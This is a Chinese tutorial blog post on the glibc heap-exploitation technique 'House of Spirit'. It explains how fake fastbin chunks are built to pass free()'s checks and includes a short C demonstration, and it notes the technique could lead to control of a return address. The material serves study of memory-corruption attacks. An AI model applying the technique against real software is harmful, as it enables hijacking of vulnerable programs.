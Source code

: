 ```yaml
---
title: "heap利用 6/9: House of Spirit"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```


## 1. 概述
House of Spirit 与其他攻击稍有不同，表现为攻击者是在chunk被free之前覆盖现有指针。具体方法是：攻击者创建一个 fake chunk，它可以驻留在内存中的任何位置（堆，堆栈等），通过重写chunk指针指向fake chunk，从而达到分配一个任意地址的chunk的目的。此外，必须对fake chunk进行合适的设置以便通过所有安全检查。这种设置并不困难，只需设置好fake chunk和其下一个chunk的`size`位。当fake chunk被free后，它会被插入到一个合适的bin链表（最可能是fastbin）中。未来对该大小的`malloc`调用将返回攻击者构造的fake chunk。最终结果类似于前面描述的"forging chunks attack"。

## 2. 示例程序[[完整代码](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/house_of_spirit.c)]
```C
struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];                   // chunk falls in fastbin size range
};

struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
// fake_chunks[0] at 0x7ffe220c5ca0
// fake_chunks[1] at 0x7ffe220c5ce0

void *ptr, *victim;

ptr = malloc(0x30);                 // First malloc

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk); 

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);  

// Attacker overwrites a pointer that is about to be 'freed'
ptr = (void *)&fake_chunks[0].fd;

// fake_chunks[0] gets inserted into fastbin
free(ptr);

victim = malloc(0x30);              //  address returned from malloc
```
运行上述程序并查看fake_chunk[0]、fake_chunk[1]和victim的地址可以看到：
![](image/spirit.png)

正如预期的那样，两个fake chunk的地址在内存中是连续的，且victim返回的指针地址在fake_chunks[0]地址前面0x10即16个字节，也即chunk的`fd`指针地址。

这种攻击为更多攻击提供了可能：如若victim指向堆栈而不是堆段上的内存，通过修改堆栈上的返回地址，攻击者可以控制程序的执行。

